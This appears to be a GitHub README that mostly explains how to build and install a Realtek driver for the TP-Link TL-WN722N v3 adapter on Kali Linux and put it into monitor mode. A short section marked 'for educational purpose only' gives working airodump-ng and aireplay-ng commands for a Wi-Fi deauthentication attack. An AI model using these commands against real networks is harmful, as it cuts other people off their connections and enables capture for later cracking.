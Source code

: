 # tp-link-v3-TL-WN722N
realtek-rtl8188eus-dkms packaging for Kali Linux


apt update

apt dist-upgrade

reboot

apt install linux-headers-$(uname -r) 

sudo apt install bc

sudo rmmod r8188eu.ko

git clone https://github.com/keralahacker/tp-link-v3-TL-WN722N/

cd tp-link-v3-TL-WN722N

sudo unzip realtek-rtl8188eus-keralahacker.zip

cd realtek-rtl8188eus-keralahacker

sudo -i

echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"

exit

make

sudo make install

sudo modprobe 8188eu



To enable Monitor mode

ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up

iwconfig                                     \\check mode: monitor



Deauthentication Attack[for educational purpose only]



airodump-ng wlan0

airodump-ng --bssid <id> --channel <ch> --write test wlan0

aireplay-ng --deauth [any no.] -a <bssid> -c <station id> wlan0


Important note: 

If after restarting your kali machine doesn't recognise your device..
As lot of people are facing the same problem ..
I have a solution for you..
Whenever you restart your kali OS
Insert the adapter and run the command


sudo rmmod r8188eu.ko

Sudo modprobe 8188eu

Disconnect the device and connect again..
